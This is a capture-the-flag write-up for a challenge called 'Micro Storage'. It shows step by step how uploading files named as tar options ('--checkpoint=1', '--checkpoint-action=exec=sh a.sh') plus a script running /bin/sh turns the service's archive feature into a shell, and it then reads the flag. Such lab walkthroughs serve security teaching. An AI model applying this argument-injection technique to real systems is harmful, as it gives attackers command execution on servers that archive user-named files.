



# Micro Storage CTF

Micro Storage CTF is a quick glimpse into remote code execution via improper scripting. It shows how you need to be careful with the tools you use and to always sanitize user inputs.

## Enumeration

Connect to the DockerApp with `nc` using the command:

```zsh
nc <IP_ADDR> <PORT>
```



Here, you are can see that there are options to upload, list, delete, print and archive your files. We can make a demo file called `TEST` and test all the options provided.



Note: You cannot type `/`,`$`,`%`,`*`,`()`,`{}`,`!` and other special characters as the name of a file, however you can type `=`,`.`,`-` in the name of the file.

When picking the 5th option, it gives the following:

```zsh
>>> Choose an option: 5
[+] Your base64 encoded archive:
VEVTVAAAAAAAAAAAAAAAAAAAAAAAAAA ... AAAAAAAAAAAAAAA==
```

You can copy the output and run it through cyberchef (https://gchq.github.io/CyberChef/):



Here, you can see that `tar` as been used to archive the folders, which means that we have to look into the tar command and see if there is any way to achieve remote code execution.

## Exploit 

Check out this link for more info on executing commands with `tar`: https://www.gnu.org/software/tar/manual/html_section/external.html

Since we can name the files whatever we want, we will be naming them as parameters for the `tar` command in order to get a shell.

**Step 1: Set up checkpoint**

```zsh
>>> Choose an option: 1
[*] Enter your file name: --checkpoint=1
[*] Start typing your file content: (send 'EOF' when done)
EOF
[+] Your file "--checkpoint=1" has been saved. (0 bytes written)

```

This enables the tar command to wait and execute an arbitrary action before continuing with archiving.

**Step 2: Set up action**

```zsh
>>> Choose an option: 1
[*] Enter your file name: --checkpoint-action=exec=sh a.sh
[*] Start typing your file content: (send 'EOF' when done)
EOF
[+] Your file "--checkpoint-action=exec=sh a.sh" has been saved. (0 bytes written)
```

This sets up `tar` to execute a file called `a.sh` in its local directory (Since we can't use `./` we use the `sh` command)

**Step 3: Set up a.sh**

```zsh
>>> Choose an option: 1
[*] Enter your file name: a.sh
[*] Start typing your file content: (send 'EOF' when done)
#!/bin/sh

/bin/sh

EOF
[+] Your file "a.sh" has been saved. (20 bytes written)
```

This sets up `a.sh` to give us a shell when it is executed.

Run the 5th option(Compress and download all your files) and you will be given a shell (It will appear blank, but it works, just type your commands and execute)

You can find the flag with `cat /flag.txt`
